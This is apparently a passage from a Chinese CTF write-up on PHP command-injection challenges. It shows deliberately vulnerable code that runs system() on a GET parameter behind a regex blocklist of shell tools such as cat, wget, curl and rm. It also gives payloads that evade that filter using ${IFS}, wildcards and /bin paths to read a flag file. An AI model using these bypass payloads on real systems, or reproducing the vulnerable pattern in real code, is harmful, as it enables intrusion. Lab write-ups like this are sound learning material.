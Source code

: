 **payload**

```
?c=t\ac${IFS}fla?.php
```

------

#### web54

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```

##### 方法一：利用grep命令

**payload**

```
?c=grep${IFS}show${IFS}fla??php
```

##### 方法二：利用bin文件夹下的基本命令

linux中的bin文件夹下储存着基本命令，可以使用通配符去调用命令，bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls

**payload**

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

---

#### web55

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```
